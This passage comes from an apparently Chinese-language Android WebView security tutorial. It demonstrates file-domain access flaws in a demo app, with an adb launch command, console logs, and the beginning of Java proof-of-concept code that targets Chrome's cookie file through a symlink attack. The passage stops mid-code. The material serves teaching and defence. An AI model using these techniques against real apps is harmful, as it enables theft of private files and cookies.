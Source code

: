 ```html
    </script>
</head>
</html>
```

利用导出组件加载脚本

```bash
adb shell am start -n com.willing.jsdemo/.MainActivity -d file:///android_asset/attack.html
```

此时攻击代码可以成功读取沙箱文件的内容（下图一）；若`setAllowFileAccessFromFileURLs(false)`则会触发错误，表示file域的其他文件访问被禁止（下图二）

```txt
2021-03-18 13:24:27.429 10571-10571/com.willing.jsdemo I/chromium: [INFO:CONSOLE(17)] "Failed to load file:///data/data/com.willing.jsdemo/files/secret.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.", source: file:///android_asset/attack.html (17)
```

<img src="./screenshot/read_file.png" alt="read_file" style="zoom:25%;" /><img src="./screenshot/read_file_fail.png" alt="read_file_fail" style="zoom:25%;" />

`setAllowUniversalAccessFromFileURLs(true)`许通过file协议加载的JS访问其他的源，修改攻击脚本替换访问的url

```javascript
var url = "https://www.baidu.com";
```

此时可以成功读取网页返回的内容（下图一）；若`setAllowUniversalAccessFromFileURLs(false)`则会触发错误，表示file域的其他源访问被禁止（下图二）

```
2021-03-18 13:27:11.316 11700-11700/com.willing.jsdemo I/chromium: [INFO:CONSOLE(0)] "Failed to load https://www.baidu.com/: No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'file://' is therefore not allowed access.", source: file:///android_asset/attack.html (0)
```

<img src="./screenshot/access_http.png" alt="access_http" style="zoom:25%;" /><img src="./screenshot/access_http_fail.png" alt="access_http_fail" style="zoom:25%;" />

##### 5.3 File域控制不严格漏洞【二】

即使将`setAllowFileAccessFromFileURLs()`和`setAllowUniversalAccessFromFileURLs()`两个接口均设置为false，事实上Android 4.1之后也默认是禁止，将`setAllowFileAccess()`设置为true，且设置`setJavaScriptEnabled()`允许JS交互，仍可以通过**符号链接跨源攻击**访问其他本地文件

原理为利用JS脚本的延时执行，将待访问的文件替换为待攻击文件的软链接，具体步骤为：首先在应用沙箱目录下构造恶意的JS脚本且修改目录权限，然后休眠1s待文件操作完成后，唤起系统Chrome浏览器打开此脚本，并休眠4s待脚本加载完成，再删除此脚本，并使用`ln -s`命令为Chrome的Cookie文件创建软链接并链接到已加载的脚本文件，因此可以通过符号链接访问Chrome的Cookie（实际测试发现Chrome直接禁用了file协议，因此漏洞无法复现）

```java
public final static String MY_PKG = "com.willing.jsdemo";
public final static String MY_TMP_DIR = "/data/data/" + MY_PKG + "/tmp/";
public final static String HTML_PATH = MY_TMP_DIR + "malicious.html";
public final static String TARGET_PKG = "com.android.chrome";
public final static String TARGET_FILE_PATH = "/data/data/" + TARGET_PKG + "/app_chrome/Default/Cookies";
public final static String HTML = 
  "<body>\n" +
  "<u>Wait a few seconds.</u>\n" +
  "<script>\n" +
  "    var doc = document;\n" +
  "    function readFile() {\n" +
  "        var xmlHttp = new XMLHttpRequest();\n" +
  "        xmlHttp.onload = function() {\n" +
  "            var res = xmlHttp.responseText;\n" +
  "            alert(res);\n" +
  "            doc.body.appendChild(doc.createTextNode(res));\n" +
  "        }\n" +
  "        xmlHttp.open(\"GET\", doc.URL, true);\n" +
  "        xmlHttp.send();\n" +
  "\n" +
```